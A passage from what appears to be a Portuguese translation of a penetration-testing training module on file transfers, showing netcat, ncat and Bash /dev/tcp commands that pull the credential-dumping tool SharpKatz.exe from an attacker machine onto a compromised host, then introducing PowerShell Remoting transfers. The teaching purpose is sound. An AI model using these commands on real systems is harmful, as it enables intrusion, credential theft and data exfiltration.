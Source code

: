 ```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

Se não tivermos Netcat ou Ncat em nossa máquina comprometida, o Bash suporta operações de leitura / gravação em um arquivo de pseudo-dispositivo [/dev / TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Escrever para esse arquivo específico faz com que o Bash abra uma conexão TCP com `host:port`, e esse recurso pode ser usado para transferências de arquivos.

#### NetCat - Enviando arquivo como entrada para Netcat

```shell-session
casluxd@htb[/htb]$ # Example using Original Netcat
casluxd@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Enviando arquivo como entrada para Netcat

```shell-session
casluxd@htb[/htb]$ # Example using Ncat
casluxd@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Conexão de máquina comprometida ao Netcat Usando / dev / tcp para receber o arquivo

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

`**Nota:** A mesma operação pode ser usada para transferir arquivos do host comprometido para o nosso Pwnbox.`

## Transferência de arquivo da sessão PowerShell

Já falamos sobre fazer transferências de arquivos com o PowerShell, mas pode haver cenários em que HTTP, HTTPS ou SMB não estejam disponíveis. Se for esse o caso, podemos usar [Remoção do PowerShell](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), também conhecido como WinRM, para executar operações de transferência de arquivos.

[Remoção do PowerShell](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) nos permite executar scripts ou comandos em um computador remoto usando as sessões do PowerShell. Os administradores geralmente usam o PowerShell Remoting para gerenciar computadores remotos em uma rede, e também podemos usá-lo para operações de transferência de arquivos. Por padrão, ativar a nova votação do PowerShell cria um ouvinte HTTP e HTTPS. Os ouvintes são executados nas portas padrão TCP / 5985 para HTTP e TCP / 5986 para HTTPS.

Para criar uma sessão de Remoção do PowerShell em um computador remoto, precisaremos de acesso administrativo, ser um membro do `Remote Management Users` agrupe ou tenha permissões explícitas para o PowerShell Remoting na configuração da sessão. Vamos criar um exemplo e transferir um arquivo de `DC01` para `DATABASE01` e vice-versa.

Temos uma sessão como `Administrator` em `DC01`, o usuário tem direitos administrativos sobre `DATABASE01`, e o PowerShell Remoting está ativado. Vamos usar o Test-NetConnection para confirmar que podemos nos conectar ao WinRM.
